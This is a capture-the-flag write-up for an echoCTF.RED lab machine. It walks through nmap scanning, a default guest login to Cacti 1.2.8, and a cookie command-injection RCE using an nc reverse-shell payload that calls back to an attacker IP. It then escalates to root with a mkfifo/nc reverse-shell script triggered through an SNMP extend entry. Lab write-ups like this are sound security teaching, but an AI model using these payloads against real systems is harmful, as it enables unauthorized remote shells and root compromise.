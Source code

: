 ```yaml
---
layout: default
title : muzec - Nopal - echoCTF.RED
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124`

```
# Nmap 7.91 scan initiated Fri Dec  3 09:28:53 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.30.124
Warning: 10.0.30.124 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.0.30.124 from 320 to 640 due to 229 out of 762 dropped probes since last increase.
Increasing send delay for 10.0.30.124 from 640 to 1000 due to 136 out of 451 dropped probes since last increase.
Nmap scan report for 10.0.30.124
Host is up (0.14s latency).
Not shown: 37499 filtered ports, 28035 closed ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec  3 09:30:16 2021 -- 1 IP address (1 host up) scanned in 82.67 seconds
```

Now let use nmap default script and service detection to get more information from the target.

`nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nmap -sC -sV -oA nmap/normal -p 80 10.0.30.124            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-03 09:58 WAT
Nmap scan report for 10.0.30.124
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Man am so excited over pwning Nopal man it was awesome i learn something new which is awesome so much awesome so without wasting to much of our time let just jump in since we have only HTTP port let hit it.

![image](https://user-images.githubusercontent.com/69868171/144599402-b7f2950b-5f34-4c5a-ae24-7d6dffaac686.png)

Now we have a login page wich is in need of a credentials and we have the version also before jumping in first what is cacti.

### CACTI

Cacti is an open-source, web-based network monitoring and graphing tool designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. Cacti allows a user to poll services at predetermined intervals and graph the resulting data.

Now time to hit some research finding some default credentials luckily i came accross `guest/guest` and boom we are in.

![image](https://user-images.githubusercontent.com/69868171/144600226-fcf4ed27-f4ad-4a6b-b891-4806399193e3.png)


Now since we know the version let try find some exploit if it vulnerable. Found some interesting but it was in metasploit module so i try doing it manaully.

![image](https://user-images.githubusercontent.com/69868171/144600509-06f33c85-cf04-4e36-ad0d-f66da80b6b1f.png)

Boom yes it a Remote Code Execution exploit so let run it manaully.

### Cacti v1.2.8 Remote Code Execution Manually


![image](https://user-images.githubusercontent.com/69868171/144601048-8e96f891-db7c-43d7-8348-a46cdba882b9.png)

Navigating to `http://10.0.30.124/cacti/graph_realtime.php?action=countdown&top=0&left=0&local_graph_id=1826` so let intercept it using burp suite and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601308-f33ad141-8ef9-424d-8712-ce05d9ce43df.png)

Right click and send to repeater.

![image](https://user-images.githubusercontent.com/69868171/144601464-ce352260-3406-4d2e-a3b5-9952c69688a8.png)

The vulnerable part is the Cookie session so we will be injecting our payload to the cookie.

![image](https://user-images.githubusercontent.com/69868171/144601984-cf287f62-b5be-413c-9f7c-5e2df0761eee.png)

If we want to use netcat to gain a shell, we need to create the following payload:

```
;nc${IFS}-e${IFS}/bin/bash${IFS}ip${IFS}port
```

I got an idea to use `${IFS}` bash variable which represent a space. And of course we need to escape the command using `;` to be like the above one.

Lets try it and see the results by encoding the payload first:

```
%3Bnc%24%7BIFS%7D%2De%24%7BIFS%7D%2Fbin%2Fbash%24%7BIFS%7D10%2E10%2E0%2E186%24%7BIFS%7D1337
```

![image](https://user-images.githubusercontent.com/69868171/144602556-3283b87c-47c9-41bf-9b30-4e766dd16d30.png)

Now let start our Ncat listener before running the payload.

![image](https://user-images.githubusercontent.com/69868171/144602636-6266aa16-512b-4359-841d-e09a90c62897.png)

Now we are ready let inject our payload and send.

![image](https://user-images.githubusercontent.com/69868171/144602771-fbac3201-0c72-4f83-ab5c-362ae5c5fdce.png)

Now send let check our Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/144603088-f3d23c5e-d345-43fd-bda8-306d7c6dc4a0.png)

Boom we have shell let spawn a tty shell to make our shell more stable.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ nc -nvlp 1337                                 
listening on [any] 1337 ...
connect to [10.10.0.186] from (UNKNOWN) [10.0.30.124] 43204
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@nopal:/opt/cacti$ ^Z
zsh: suspended  nc -nvlp 1337
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/nopal]
└─$ stty raw -echo;fg                                                                                                                                        148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 1337

www-data@nopal:/opt/cacti$ stty rows 17 cols 190
www-data@nopal:/opt/cacti$ export TERM=xterm
www-data@nopal:/opt/cacti$ 
```

![image](https://user-images.githubusercontent.com/69868171/144603333-56b1cbb2-a5af-473e-b7bd-3c55c0cd6c36.png)

We have one flag `/etc/passwd` four more to go let check what ports we have running locally.

```
www-data@nopal:/opt/cacti$ ss -tulpn
Netid  State      Recv-Q Send-Q                                               Local Address:Port                                                              Peer Address:Port              
udp    UNCONN     0      0                                                       127.0.0.11:42609                                                                        *:*                  
udp    UNCONN     0      0                                                        127.0.0.1:161                                                                          *:*                  
tcp    LISTEN     0      80                                                       127.0.0.1:3306                                                                         *:*                  
tcp    LISTEN     0      128                                                              *:80                                                                           *:*                   users:(("nginx",pid=420,fd=6))
tcp    LISTEN     0      128                                                     127.0.0.11:45841                                                                        *:*                  
www-data@nopal:/opt/cacti$ 
```
Seems we have SNMP port running let check for conf file.

![image](https://user-images.githubusercontent.com/69868171/144604042-be1fc891-607c-4d8e-b07e-0dbecc96cc7f.png)

`cat /etc/snmp/snmpd.conf` we have another flag which is cool but about the conf file something stand out `extend etsctf /tmp/snmpd-tests.sh` seems like to possible for us to get RCE with SNMP. So let do some research on it.


### SNMP RCE

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (`rwcommunity`) on the Linux operating system can be abused to let the attacker execute a command on the server.


![image](https://user-images.githubusercontent.com/69868171/144611403-f8ab2be8-65dd-49c9-8c90-0c55d2372b47.png)

*Source hacktricks*

### Extending The Services

While you are not able to modify existing entries that were configured in `snmpd.conf`, it is possible to add additional commands over SNMP, because the `MAX-ACCESS` permission setting in the MIB definition is set to `read-create`

Adding a new command basically works by appending an additional row to the `nsExtendObjects` table. Feel free tp read more here [Snmp Arbitary Command Execution And Shell](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce) Now let jump back to exploit our target.


We need to change directory to `/tmp` to create the file `snmpd-tests.sh` that will hold our reverse shell payload;

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.186 4444 >/tmp/f

```

Save in `snmpd-tests.sh` and make it executable with `chmod +x snmpd-tests.sh` and we should start our Ncat listener also before walking with SNMP.

![image](https://user-images.githubusercontent.com/69868171/144613065-89d3b8a6-2a94-446b-8eed-7fa1f7caca4e.png)


Now is the time to walk let run;

```
snmpwalk 127.0.0.1 -c public -v1 . -On
```

![image](https://user-images.githubusercontent.com/69868171/144613398-7d5b8f86-4f6e-4e4a-81f9-b517769c9f29.png)

Boom we have root shell and we have walk successfully which also execute the bash file with root privillege to give us root shell.
